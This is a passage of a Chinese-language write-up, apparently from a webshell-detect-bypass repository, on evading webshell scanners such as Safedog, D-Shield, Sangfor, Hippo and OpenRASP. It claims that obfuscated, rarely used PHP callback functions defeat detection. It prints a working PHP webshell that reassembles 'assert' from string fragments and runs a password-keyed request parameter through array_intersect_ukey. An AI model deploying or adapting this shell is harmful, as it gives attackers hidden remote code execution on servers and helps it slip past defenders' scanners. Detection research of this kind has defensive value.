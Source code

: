 使用河马正式版在线查杀，通过

![河马正式版在线查杀](success-5.png)

至此，我们**已经绕过安全狗、D盾和深信服的客户端Webshell查杀和bugscaner、河马正式版的在线查杀**。

可以发现，只需找一个网络上没有"**频繁出现**"或"**没有出现过**"回调函数，**稍加变形**，即可绕过传统技术的检测。

再给一个"array_intersect_ukey"反调函数的免杀示例[array_intersect_ukey.php](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/php/array_intersect_ukey.php)：

```php
<?php
/**
 * Noticed: (PHP 5 >= 5.4.0, PHP 7)
 *
 */
$password = "LandGrey";
$ch = explode(".","hello.ass.world.er.t");
array_intersect_ukey(array($_REQUEST[$password] => 1), array(1), $ch[1].$ch[3].$ch[4]);
?>
```

## 0x05：突破**OpenRASP** WebShell沙盒检测

接着用OpenRASP团队的WEBDIR+在线查杀平台，被查出来是后门

![OpenRASP在线查杀](failed-1.png)
